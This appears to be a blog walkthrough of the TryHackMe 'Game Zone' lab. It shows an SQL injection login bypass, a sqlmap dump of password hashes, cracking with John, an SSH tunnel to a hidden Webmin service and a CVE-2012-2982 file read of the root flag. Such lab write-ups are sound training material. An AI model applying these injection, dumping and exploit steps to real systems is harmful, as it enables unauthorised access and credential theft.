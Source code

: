 ```yaml
---
title: 'Game Zone - TryHackMe Walkthrough'
date: 2020-07-05 00:00:00
featured_image: '/images/posts/gamezone-thm.png'
excerpt: SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a Metasploit payload to gain root privileges.
---
```

![](/images/posts/gamezone-thm.png)

### Goal  
SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a metasploit payload to gain root privileges.

### Recon
- The initial visit to the page looks like a Game community page have couple links for action (but not working like register) and a login screen with Agent 47 (Hitman) image (reverse search with Google).
- Also it looks the web page is running on php, noticed with failed login and search option which redirected to index.php
- Nmap revealed the below information:

```
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
    |   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
    |_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Game Zone
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Logging in
- Using the SQL injection with user name as `' or 1=1 -- -` and any password, logged into the web page.
- The page then navigated to portal.php where there is a search.
- Using Burp, captured and saved the search request to a file, search_request.txt

```
    POST /portal.php HTTP/1.1
    Host: 10.10.17.195
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.17.195/portal.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 19
    DNT: 1
    Connection: close
    Cookie: PHPSESSID=smej272kr499jb9bjd53rcin26
    Upgrade-Insecure-Requests: 1

    searchitem=testgame

```

-  Run the `sqlmap` with the request as input and it will find the database details.
 `sqlmap -r search_request.txt --dbms=mysql --dump`
 - The sqlmap returned:
	 - A table "users" which has hashed usernames and passwords in column "pwd" with SHA256.
	 - `agent47` hashed password is `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`
	 - Another table, "post" has game name and details.

### Cracking the hashed password
Using the `John`, we can  try to find the plain text for the given hash password (saved in hash.txt) with a word list.

`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256` and cracked the password as *videogamer124*.

### Checking the services
- Login to the victim machine over ssh using the obtained credentials.
- The host is running below sockets:  

```bash
$ ss -tulpn
Netid State      Recv-Q Send-Q  Local Address:Port                 Peer Address:Port              
udp   UNCONN     0      0                   *:10000                           *:*                  
udp   UNCONN     0      0                   *:68                              *:*                  
tcp   LISTEN     0      80          127.0.0.1:3306                            *:*                  
tcp   LISTEN     0      128                 *:10000                           *:*                  
tcp   LISTEN     0      128                 *:22                              *:*                  
tcp   LISTEN     0      128                :::80                             :::*                  
tcp   LISTEN     0      128                :::22                             :::*      

```

- There is a service running on port 10000 which was not showed in nmap results, could be due to firewall block.
- Established a local SSH tunnel with the victim to connect to the blocked service, by creating the tunnel from local host (on port 10001) and the remote (to 10000):  

`ssh -L 10001:localhost:10000 agent47@10.10.17.195`

- The port 10000 on victim is running a Webmin service (CMS) with version 1.580

```
    nmap -p 10001 -A 127.0.0.1
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-05 17:30 EDT
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000064s latency).

    PORT      STATE SERVICE VERSION
    10001/tcp open  http    MiniServ 1.580 (Webmin httpd)
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-title: Login to Webmin
```

### Escalating the Privileges
- The Webmin version 1.580 is vulnerable for remote code execution as defined in [CVE-2012-2982](https://www.exploit-db.com/exploits/21851).
By looking at the exploit, we can access any file by through /file/show.cgi.
- Using this vulnerability, navigate to `http://127.0.0.1:10001/file/show.cgi/root/root.txt` and found the flag value *a4b94583014--------8d12d902adeee*.
- Also the Metasploit (exploit/unix/webapp/webmin_show_cgi_exec) is really not needed here.
